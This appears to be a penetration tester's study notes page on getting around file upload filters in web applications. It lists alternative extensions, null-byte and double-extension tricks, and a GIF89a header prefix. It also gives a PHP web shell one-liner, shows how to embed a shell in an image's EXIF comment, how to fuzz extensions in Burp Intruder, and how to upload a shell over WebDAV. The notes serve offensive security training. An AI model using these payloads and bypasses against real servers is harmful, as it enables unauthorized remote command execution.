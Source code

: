 ```yaml
---
title: "File Upload"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - https
  - http
  - web
  - file upload
toc: true
hide_title: true
excerpt: ""
---
```


# Bypass file upload filtering

- Rename it
	- upload it as shell.php.jpg
- Blacklisting bypass, change extension
    - `php phtml, .php, .php3, .php4, .php5, and .inc`
	- bypassed by uploading an unpopular php extensions. such as: `pht, phpt, phtml, php3, php4, php5, php6`
    - asp `asp, .aspx`
    - perl `.pl, .pm, .cgi, .lib`
    - jsp `.jsp, .jspx, .jsw, .jsv, and .jspf`
    - Coldfusion `.cfm, .cfml, .cfc, .dbm`
- Whitelisting bypass
    - Bypassed by uploading a file with some type of tricks,
    - Like adding a null byte injection like (`shell.php%00.gif` ).
        Or by using double extensions for the uploaded file like ( `shell.jpg.php`)
- GIF89a;
    - If they check the content. Basically you just add the text "GIF89a;" before you shell-code.
```
GIF89a;            
<?            
system($_GET['cmd']);//or you can insert your complete shell code            
?>
```

## ExifTool

```
1. <?php system($_GET['cmd']); ?>  //shell.php

2. exiftool "-comment<=shell.php" malicious.png

3. strings malicious.png | grep system
```

# Bruteforcing extensions

- We can fuzz the extensions to find out which extensions are not blocked,
- we will use burpsuite for this

Some useful extensions -
- **PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc_
- **ASP**: _.asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml_
- **Jsp:** _.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action_
- **Coldfusion:** _.cfm, .cfml, .cfc, .dbm_
- **Flash**: _.swf_
- **Perl**: _.pl, .cgi_
- **Erlang Yaws Web Server**: _.yaws_

Now make list of extensions and add it to **intruder** to FUZZ and check out which one is worked
![[image.avif]]

Note: Make sure **url-encodin**g is unchecked in payload section, as it will unless encode our dot and we will not get desire results ,

# WebDAV

We can use `cadaver` to upload the shell

```
cadaver http://192.168.1.103/dav/
put /tmp/shell.php
```